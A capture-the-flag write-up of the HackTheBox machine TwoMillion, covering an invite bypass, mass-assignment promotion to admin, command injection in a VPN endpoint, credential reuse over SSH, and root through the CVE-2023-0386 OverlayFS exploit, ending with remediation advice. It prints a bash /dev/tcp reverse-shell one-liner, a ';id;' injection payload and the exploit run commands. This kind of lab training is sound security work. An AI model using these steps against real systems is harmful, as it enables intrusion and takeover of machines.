# HTB — TwoMillion (Easy, Linux)

## Overview

TwoMillion is an easy Linux machine themed on the original HackTheBox invite system. The invite flow is bypassed by deobfuscating client-side JavaScript to discover a hidden API endpoint. A mass-assignment flaw in the admin API allows a normal user to promote themselves to administrator, which in turn exposes a command-injection vulnerability in the VPN generation endpoint, yielding a shell as `www-data`. Database credentials recovered from a `.env` file are reused for SSH as the `admin` user. Privilege escalation is achieved through the OverlayFS kernel vulnerability CVE-2023-0386.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC -Pn 10.129.137.78
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-28 21:36 +0100
Nmap scan report for 10.129.137.78
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

SSH (22) and HTTP (80) are open. The web server redirects to `2million.htb`, which I added to `/etc/hosts`.

## Foothold

### Bypassing the invite system

Registration requires an invite code. The "Join HTB" link leads to an `/invite` page:



Enumerating the site's JavaScript revealed an obfuscated file, `inviteapi.min.js`. Deobfuscating it exposed two functions, `verifyInviteCode()` and `makeInviteCode()`, the latter calling `POST /api/v1/invite/how/to/generate`.

Calling that endpoint returned a ROT13-encoded response. Decoding it produced a hint:

> In order to generate the invite code, make a POST request to `/api/v1/invite/generate`



Requesting the real endpoint returned a Base64-encoded invite code:

````
$ curl -s -X POST http://2million.htb/api/v1/invite/generate
````



Decoding it gave a valid invite code, which completed registration:



### Enumerating the API

The "Connection Pack" download on the access page revealed the API path structure under `/api/v1`:



Browsing `/api/v1` listed the available endpoints, including administrative ones:



Requesting the admin endpoints as a normal user returned `405 Method Not Allowed` / permission errors, confirming the account was not yet an administrator:



### Privilege escalation to admin (mass assignment)

I targeted `/api/v1/admin/settings/update` and built the request step by step, using each error response to refine it:

1. Changing the method from `GET` to `PUT` returned a JSON error:

   

2. `"Invalid content type"` — set `Content-Type: application/json`:

   

3. `"Missing parameter: email"` — added the account email:

   

4. The response then referenced an `is_admin` field. Adding `"is_admin": true` to the JSON body and resending returned `200 OK`, promoting the account to administrator:

   
   

### Command injection in VPN generation (RCE)

As an admin, the endpoint `/api/v1/admin/vpn/generate` became accessible. It generates a VPN configuration for a supplied `username`:



Because the configuration is likely generated by passing the username to a shell command (`exec`/`system`) without sufficient filtering, I injected a command after the username (`;id;`), confirming command execution:



I then injected a Base64-encoded reverse shell and caught it with a listener:

````bash
$ echo -n "bash -i >& /dev/tcp/10.10.15.254/1337 0>&1" | base64
$ nc -lvp 1337
````



## Lateral Movement

### Database credentials and reuse

The application's `.env` file contained a cleartext database password:



An `admin` user with a home directory exists in `/etc/passwd`. Reusing the database password for that account over SSH succeeded:



````
admin@2million:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
````

## Privilege Escalation

### CVE-2023-0386 (OverlayFS)

Enumerating local mail revealed a message addressed to `admin` referencing CVE-2023-0386:



The kernel and distribution confirmed the target was vulnerable:

````
admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic ... x86_64 GNU/Linux
admin@2million:~$ lsb_release -a
Description:    Ubuntu 22.04.2 LTS
````

CVE-2023-0386 is a local privilege escalation flaw in the Linux kernel's OverlayFS, caused by improper handling of setuid files when copying between overlay layers, allowing a low-privileged user to gain root. I transferred the public PoC, built it, and ran it:

````
admin@2million:/tmp/CVE-2023-0386$ make all
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc &
admin@2million:/tmp/CVE-2023-0386$ ./exp
...
[+] mount success
[+] exploit success!
````

The exploit returned a root shell, confirmed by `uid=0(root)`:



## Remediation

- **Client-side secrets:** Never rely on obfuscation to hide API endpoints; enforce authorization server-side on every route.
- **Mass assignment:** Whitelist updatable fields server-side; never let client-supplied parameters such as `is_admin` modify privileged attributes.
- **Command injection:** Never pass user input to shell commands; use parameterised APIs and strict input validation.
- **Credential reuse / secrets in code:** Store secrets outside the web root, and enforce distinct credentials across the database and system accounts.
- **Kernel vulnerability (CVE-2023-0386):** Patch the kernel to a fixed release; restrict unprivileged user namespaces where feasible.